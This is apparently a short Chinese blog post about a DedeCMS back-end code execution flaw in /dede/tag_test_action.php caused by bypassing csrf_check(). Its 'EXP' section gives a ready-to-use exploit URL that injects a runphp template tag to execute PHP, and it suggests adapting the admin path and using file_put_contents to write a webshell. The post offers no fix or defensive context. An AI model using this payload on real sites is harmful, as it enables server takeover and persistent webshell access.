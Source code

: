 ```yaml
---
title: "dedecms 后台代码执行"
date: 2018-03-30T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['cms','php']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


该漏洞的触发点为 /dede/tag_test_action.php. 起因是 csrf_check() 的绕过, 导致可执行任意代码.

<!--more-->

## EXP

`/dede/tag_test_action.php?url=a&token=&partcode={dede:field name='source' runphp='yes'}phpinfo();{/dede:field}`

根据情况更改后台路径

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/30/1522407172.jpg)

file_put_contents 直接写 webshell